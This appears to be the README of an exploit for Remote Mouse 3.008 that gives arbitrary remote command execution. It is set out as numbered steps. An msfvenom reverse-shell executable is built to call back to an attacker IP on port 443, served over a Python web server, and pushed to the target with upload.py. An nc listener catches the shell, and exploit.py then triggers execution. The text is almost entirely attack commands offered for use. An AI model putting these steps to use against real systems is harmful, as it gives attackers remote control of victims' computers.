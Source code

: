 <h1> Exploit for Remote Mouse - Arbitrary Remote Command Execution </h1>


<h3>specific version  3.008 </h3>


1. make revshell exe file
   
   ```
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.168.139 LPORT=443 -f exe > weinrev.exe
   ```
2. Run a python server on this directory
   ```
   python3 -m http.server 80
   ```
3. Edit upload.py at line 119 then run the command 
   ```
   python2 upload.py target_ip
   ```
4. wait a little bit for getting response in python server 
5. Run a nc for getting reverse shell
   ```
   nc -lnvp 443
   ```
6. Edit exploit.py at line 119 and run
   ```
   python2 exploit.py target_ip
   ```
